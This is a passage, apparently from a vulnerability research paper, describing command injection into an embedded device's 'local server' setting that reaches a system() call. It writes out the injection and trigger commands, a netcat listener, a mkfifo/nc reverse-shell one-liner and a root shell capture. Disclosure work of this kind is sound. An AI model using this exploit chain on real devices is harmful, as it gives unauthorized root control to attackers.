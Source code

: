 This function takes an arbitrary string from the configuration data and
parses out three arguments: url, user, password. It then directly copies
each of these into a composite buffer that is then passed to the
`system` library call. If the contents of the 0x14 setting can be set to
user-controlled data then we can achieve command injection, and
subsequently RCE.

Indeed, arbitrary control of the 0x14 setting is possible. This unnamed
settings was determined to be associated with the ”local server"
configuration and can be set by sending the device the following command
template:

\$IP@STEM_LOCAL_SERVER_URL_SET_REQ:\${URL};\${USER};\${PASSWORD};

The code responsible for handling user input does not implement
sanitization, so user data is passed as-is into the configuration
profile of the device. Later, when this user-supplied value is used in
some way, it remains entirely user-controlled. If this user-controlled
data is passed to a call to `system` directly, as the function
`system_update_now` from Listing
<a href="#sysupdate" data-reference-type="ref" data-reference="sysupdate">[sysupdate]</a>
is shown to do, then back-ticks may be used to spawn sub-shells to run
arbitrary commands in the context of the backend service provider. For
example, to reboot the device the appropriate setup command is:

\$IP@STEM_LOCAL_SERVER_URL_SET_REQ:‘reboot‘;;;

Followed by a triggering command that forces the device down this
vulnerable code path. It was determined that the vulnerable function was
associated with a call tree that starts with the command handler for the
following command:

\$IP@STEM_FW_UPDATE_NOW_REQ:

If we first spawn a local listener (e.g. `nc -lk $IP $PORT`), a reverse
shell is achievable by sending the following command as described above
(followed by the triggering command):

mkfifio /tmp/a && cat /tmp/a $|$ /bin/sh -i 2$>$&1 $|$ nc \$IP \$PORT
$>$/tmp/a

Note the use of && rather than a semi-colon as a shell command
separator. Recall that the vulnerable code uses semi-colons as its own
internal delimiters and, as such, cannot be used within an injected
command. The effect of executing this command after starting the local
listener is shown in the following listing:

```
$ nc -kl 192.168.0.200 5555
sh: cannot set terminal process group (217): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# id
uid=0(root) gid=0(root)
sh-4.4# cat /proc/cpuinfo
processor       : 0
model name      : ARM926EJ-S rev 5 (v5l)
BogoMIPS        : 220.92
Features        : swp half thumb fastmult edsp java
CPU implementer : 0x41
CPU architecture: 5TEJ
CPU variant     : 0x0
CPU part        : 0x926
CPU revision    : 5

Hardware        : Generic DA850/OMAP-L138/AM18x
Revision        : 0000
Serial          : 0000000000000000
```
